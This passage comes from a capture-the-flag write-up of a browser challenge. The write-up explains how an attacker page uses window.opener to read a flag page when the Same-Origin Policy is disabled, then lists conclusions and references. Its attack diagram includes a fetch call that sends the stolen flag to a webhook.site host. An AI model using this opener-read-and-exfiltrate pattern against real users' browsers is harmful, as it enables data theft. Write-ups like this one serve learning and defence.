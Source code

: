 ```html
</html>
```

The code adheres to this visual representation of the attack:

```bash
Admin bot
   ↓ opens attacker.html
Attacker tab
   → window.opener.location = /get_flag
   → waits...
   → reads window.opener.document.body.innerText
   → fetch('https://webhook.site?flag=...')
```

We host the webpage and deliver the attack

![exploit](/images/l3ak25/window-of-opp-exploit.gif)

And Boom~

![celebration hackah~](https://media1.tenor.com/m/qJ_EjDNHqcUAAAAC/usuwam-rajd-hakowanie.gif)

Here is the flag: `L3AK{T1gh7_CSRF_y3t_w1nd0w_0p3n3r_w1n5!}`

## Conclusions

- Same-Origin Policy (SOP) is a fundamental browser defense preventing cross-origin reads and DOM access.
- Browsers use origin tuples (scheme, host, port) to enforce this boundary.
- `window.opener` can be dangerous if the opened page is malicious and SOP is relaxed.
- The Chrome flag `--disable-web-security` completely disables SOP and CORS, making browser automation insecure by default.
- This challenge demonstrates how opener-based attacks can completely subvert origin boundaries in such an environment.
- CSRF protection alone is **not enough** when the browser itself disables security constraints.

## References

### **Same-Origin Policy & Browser Security**

1. **[RFC 6454 – The Web Origin Concept (IETF)](https://datatracker.ietf.org/doc/html/rfc6454)**
2. **[MDN – Same-Origin Policy Overview](https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy)**
3. **[PortSwigger – Same-Origin Policy](https://portswigger.net/web-security/cors/same-origin-policy)**
4. **[W3C Wiki – Same-Origin Policy (Archived)](https://web.archive.org/web/20170717163022/https://www.w3.org/Security/wiki/Same_Origin_Policy)**
5. **[Peter Beverloo’s Chrome Switches – `--disable-web-security`](https://peter.sh/experiments/chromium-command-line-switches/#disable-web-security)**

### **Cross-Site Request Forgery (CSRF)**
